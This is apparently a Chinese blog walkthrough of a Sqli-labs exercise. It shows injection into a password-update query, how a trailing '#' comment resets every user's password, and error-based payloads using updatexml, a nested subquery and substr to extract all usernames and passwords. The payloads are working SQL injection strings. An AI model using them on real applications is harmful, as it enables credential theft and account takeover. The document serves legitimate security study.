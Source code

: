 所以这里不好下手，只能从密码下手。

    // connectivity 
    @$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";
    
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);
    //echo $row;
    	if($row)
    	{
      	
可以看出，用户名必须是数据库有的用户，我们可以爆破一下，爆破出用户名。这里就直接知道有一个admin了。

测试在更新密码处，`admin'`，报错
	
	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1

报错处`admin'`，因为咋们添加的单引号以本来用户名处admin前面的单引号组成一对，所以admin后面的单引号就落单了，所以报错了。	`UPDATE users SET password = 'admin'' WHERE username='admin'`

如果后边加上注释，语句就变成了这样`UPDATE users SET password = 'admin' #' WHERE username='admin'`。密码都改成admin了....因为#注释了后边的限制。

![NbcBMd.png](https://s1.ax1x.com/2020/07/02/NbcBMd.png)

在密码处测试了一下`123456' and 1=1 #`,结果密码都变成1了。为啥不变成123456呢？参照[聂总博客](https://al0neranger.github.io/2020/02/13/SQL%E6%B3%A8%E5%85%A5%E8%BF%9B%E9%98%B6-Sqli-labs%E9%9D%B6%E5%9C%BA-4/)，是优先级问题。优先运算and和or.

`UPDATE users SET password = '123456' and 1=1 #' WHERE username='admin'`

![Nbgy6J.png](https://s1.ax1x.com/2020/07/02/Nbgy6J.png)

他这里会报错，所以我们可以进行报错注入。

尝试`uname=admin&passwd=123456' and updatexml(1,concat(0x5e,(select group_concat(username,password) from users),0x5e),1)#`
报错

	You can't specify target table 'users' for update in FROM clause

原因：不能不能先select出同一表中的某些值，再update这个表(在同一语句中)

![NbRDsJ.png](https://s1.ax1x.com/2020/07/02/NbRDsJ.png)

我们再加一层select，还要给里面那层给个别名。
`uname=admin&passwd=123456' and updatexml(1,concat(0x5e,(select group_concat(username,password) from (select * from users)hack),0x5e),1)`

![NbhCGV.png](https://s1.ax1x.com/2020/07/02/NbhCGV.png)

利用substr`uname=admin&passwd=123456' and updatexml(1,concat(0x5e,substr((select group_concat(username,0x7e,password) from (select * from users)hack),1,31),0x5e),1)#`,说一说为啥不用left()，right(),因为查询的结果内容太多，导致中间的部分内容用left和rjght函数弄不出来。而`substr()`可以灵活的定位截取。

```
update users set password='123456' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,passwame,0x7e,password) from (select * from users)hack),0x5e),1)#' where username='admin'
;
```

